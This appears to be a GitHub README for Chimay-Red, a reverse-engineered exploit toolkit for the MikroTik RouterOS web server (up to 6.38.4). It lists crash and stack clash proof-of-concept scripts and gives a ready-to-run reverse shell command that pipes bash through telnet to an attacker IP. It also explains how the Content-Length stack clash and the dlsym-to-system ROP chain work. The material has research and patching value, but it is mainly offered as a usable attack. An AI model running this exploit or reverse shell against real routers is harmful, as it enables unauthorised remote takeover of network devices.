 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the PDF for more info 

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

## StackClashROPSystem  
Stack clash exploit using two threads  with ROP chain to run bash commands  

For a reverse shell:  
```
$ nc -l -p 1234
$ ./StackClashROPsystem.py 192.168.8.1 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

(As the ROP is dynamically created, you have to extract the www binary from the RouterOS firmware, check that the running version is the same)

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.  
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

The ROP chain that executes bash commands is using "dlsym" (present in the PLT) to find the address of "system".  
Once we have the address of system we construct the bash string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to the address of system passing as argument the address of the created bash string.  
